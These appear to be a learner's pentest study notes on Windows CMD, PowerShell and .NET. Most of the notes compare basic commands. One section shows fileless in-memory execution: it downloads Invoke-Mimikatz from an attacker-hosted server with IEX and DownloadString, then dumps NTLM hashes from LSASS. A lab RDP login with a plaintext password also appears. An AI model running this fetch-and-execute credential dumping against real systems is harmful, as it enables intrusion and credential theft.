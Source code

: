 ## concept of Windows

### CMD(Command prompt)
- CLI/Shell 

### Powershell
- 2006
- CLI 
- accessible to .NET framework
- more functions to do pentest than CMD

### Windows Terminal
- not new shell, 
  different shell emulator(cmd, powershell, Azure shell, bash(!))
- it's gonna be used much in the future
  - supported over 20H1(19041)



### .NET
- windows development flatform
  - runtime (code execution in final phase)
  - groups of programming languages 
  - libraries
  - dev tools 
- I can do programing or data transfer 
- Web-cloud-mobile all connected
  - you can do anything in Windows with .NET 
  - Developer use much, attacker too


### Commands
- cmdlet(Commandlet) : powershell basic command
  - format : <verb>-<noun>
    - Get-Content : get in linux
    - Get-Help : --help
  - but Alias for linux users to simplify
    - Get-Alias cat 
      - Get-Content = cat
  

### powershell script(.ps1, .psd, .psm, etc.)
- in-memory execution
  - no need to download file
  - get code(.ps1) from another server hosting and load in Powershell.exe's memory 
    - and then use functions in .ps1
- Fileless code possible



### Powershell vs CMD  
- the difference of commands 
xfreerdp /u:Administrator /p:'Password123!' /v:172.31.161.40 /dynamic-resolution
  - Run both as Administrator
```
#### Powershell
1.
Get-Help ls
Get-Help -Detailed ls 
Get-Help -Examples ls 
  - some commands don't have examples 
2. clear
3. cat 
  - alias : Get-Content
4. pwd
5. ls
- they shows file permissions 
  ls -Force : hidden files
6. echo "Hello Jimmy"
7. Get-Process(ps)
  - Get-Process | Where-Object{$_.ProcessName -eq "svchost"}
    - $_. means resursive
    - SI : session ID 
8. head/tail
  cat -First 2 username.txt
  -Last : tail
9. mv, cp, rm

#### CMD
1. dir /?
2. cls
3. type 
4. cd
5. dir
  dir /s : tree recursively
  dir /a:h : hidden files
  or dir /a
    attributes:hiddenfile
6. echo Hello Jimmy
  - no need to "" cause it contains ""
9. move, copy, del

#### same
- upper case doesn't matter in Windows

hostname 
  - this is binary : C:\Windows\system32\HOSTNAME.exe

whoami

systeminfo
    
mkdir
```



## In-Memory Execution
```
KALI
wget https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1
python3 -m http.server 80

PS
IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.129/Invoke-Mimikatz.ps1')
```
- means 
  - IEX: InvokeExpression - I'm gonan execute ()
  - I'm gonna create New object - webclient object in .NET
  - download string from outside and load to memory
- from now on, I can use functions in .ps1 
- Invoke-Mimikatz -DumpCreds
  - you can get all local users's NT hashed password(NTLM) out of LSASS 
    - it seems like MD5 (hash-identifier results's too)
  - DPAI too?
  
- function name is usally same with script name
  - when you look at powershell script's source code
```ps1
function Invoke-Mimikatz{
...
# Param
[CmdletBinding(DefaultParameterSetName="DumpCreds")]
Param(
    [Parameter(PrameterSetName = "DumpCreds", Position = 1)]
    [Switch]
    $DumpCreds,
    
    ...
)

# you can give $PEBytes param, etc.
$RemoteScriptBlock = {
  [CmdletBinding()]
  Param(
    [Parameter(Position = 0, Mandatory = $true)]
    [String]
    $PEBytes64, 

    ..
  )
}
}

```

- Get-help Invoke-Mimikatz 
  - -Detailed
  - -Examples
    - against local computer or two remote computers, etc.
   

